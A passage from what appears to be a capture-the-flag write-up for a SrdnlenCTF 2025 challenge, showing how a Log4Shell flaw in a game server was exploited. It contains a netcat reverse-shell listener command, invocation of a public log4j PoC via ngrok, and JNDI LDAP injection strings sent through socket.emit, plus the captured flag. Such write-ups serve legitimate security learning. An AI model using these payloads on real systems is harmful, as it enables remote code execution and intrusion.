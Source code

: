 >
>```bash
>   nc -lvnp 9001
>```
>
> And then, I start the exploit:
> 
> ```bash
>   python poc.py --userip  ngrok_link --webport 8080 --lport 9001
>```
>
> Once that is done, all that’s left is to send the string to the server to insert it into the logs. This can be done by writing a Python script with a socket connection to the server:
> 
>```bash
>   python exploit.py
>```
>
> Of course, in the exploit, every time it is run, the new `ldap` forwarding link created with `ngrok` must be set. This allowed me to obtain a reverse shell, and by running `cat flag.txt`, I was able to retrieve the flag.

# 🛠️ Exploitation Process
## Approach
> I used the following [exploit](https://github.com/kozmer/log4j-shell-poc/). I installed `openjdk-11-jdk` (which is also used in the challenge), then in `poc.py` I replaced all the relative paths to the JDK with the names of the binaries, which are now in the `PATH`. I ran `python3 poc.py --userip <ip> --webport 8080 --lport 9001`, which starts the LDAP server on port 1389 and the HTTP server on port 8080. Then, in another terminal, I started a netcat listener on port 9001 (`nc -lvnp 9001`). I performed the port forwarding for the 3 ports and ran `exploit.py`. Another way to do this was directly via the DevTools, as we have direct access to the `socket` variable in DevTools. We can interact directly with the socket. To activate the anticheat, we can send two movements with a short interval, using very different coordinates:
>
>```js
> socket.emit("move_bird", {"user_id": 1, "x": 0, "y": 0, "angle": "${jndi:ldap://<ip\>:1389/a}"});
> setTimeout(() => {
>    socket.emit("move_bird", {"user_id": 1, "x": 142142352425524, "y": 4322525524, "angle": "${jndi:ldap://<ip\>:1389/a}"})
>}, 2000);
>```
>
> - [:(far fa-file-archive fa-fw): Exploit](/resources/SrdnlenCTF-2025/SparklingSky/exploit.py)
> - [:(far fa-file-archive fa-fw): POC](https://github.com/kozmer/log4j-shell-poc)

# 🚩 Flag Capture
>{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
srdnlen{I_th1nk_h3_r34lly_m3ss3d_up}
{{< /typeit >}}
>{{< /admonition >}}
>
# 🔧 Tools Used
>| Tool | Purpose |
>|------|---------|
>| Python | Exploit |
>| Ngrok | Port Forwarding |
